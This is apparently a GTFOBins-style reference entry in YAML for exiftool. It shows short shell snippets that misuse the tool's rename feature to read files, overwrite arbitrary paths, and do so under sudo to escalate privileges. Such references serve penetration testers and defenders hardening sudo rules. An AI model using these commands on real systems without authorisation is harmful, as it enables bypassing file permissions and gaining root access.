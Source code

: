 ```yaml
---
description: |
  `exiftool` has a functionality to rename files, it can be abused to move files to different paths.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        OUTPUT=output_file
        exiftool -filename=$OUTPUT $LFILE
        cat $OUTPUT
  file-write:
    - code: |
        LFILE=file_to_write
        INPUT=input_file
        exiftool -filename=$LFILE $INPUT
  sudo:
    - code: |
        LFILE=file_to_write
        INPUT=input_file
        sudo exiftool -filename=$LFILE $INPUT
---
```


